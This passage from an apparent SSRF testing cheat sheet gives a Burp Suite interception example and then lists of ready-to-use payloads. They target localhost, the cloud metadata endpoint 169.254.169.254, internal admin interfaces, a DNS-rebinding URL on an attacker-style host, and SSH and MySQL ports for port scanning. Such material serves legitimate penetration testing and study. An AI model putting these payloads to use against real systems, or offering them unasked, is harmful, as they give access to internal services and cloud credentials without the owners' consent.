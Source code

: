   If the content of the file is returned, the server is vulnerable.

### 5. Use Burp Suite to Intercept and Modify Requests
- Use Burp Suite to intercept and modify the URL parameters that accept external URLs. Change the target to local or sensitive resources.

- **Example Interception:**
	```
	POST /fetch HTTP/1.1
	Host: <target_domain>
	Content-Type: application/x-www-form-urlencoded
	Content-Length: 45
	
	url=http://127.0.0.1/admin
	```

  Modify the `url` parameter to target an internal service.

# SSRF Payloads

Here are several SSRF payloads used to exploit this vulnerability:

## Basic Payloads
- These payloads are used to test for basic SSRF vulnerabilities.
    ```
    http://<target_domain>/fetch?url=http://localhost
    http://<target_domain>/fetch?url=http://localhost:80/
    http://<target_domain>/fetch?url=http://127.0.0.1
    http://<target_domain>/fetch?url=http://127.0.0.1:80/
    http://<target_domain>/fetch?url=http://169.254.169.254/latest/meta-data/
    ```

## Access Internal Web Services
- Access internal web services such as admin interfaces or databases by targeting localhost or internal IPs.
    ```
    http://127.0.0.1:80/admin
    http://10.0.0.1:8080/
    ```

## DNS Rebinding
-  Use the vulnerable server as a proxy to access internal services.
	```
	http://<target_domain>/fetch?url=http://rebind.attacker.com
	```

## Port Scanning
- Use the vulnerable server to redirect to potentially open ports.
	```
	http://<target_domain>/fetch?url=http://localhost:22
	http://<target_domain>/fetch?url=http://localhost:3306
	```
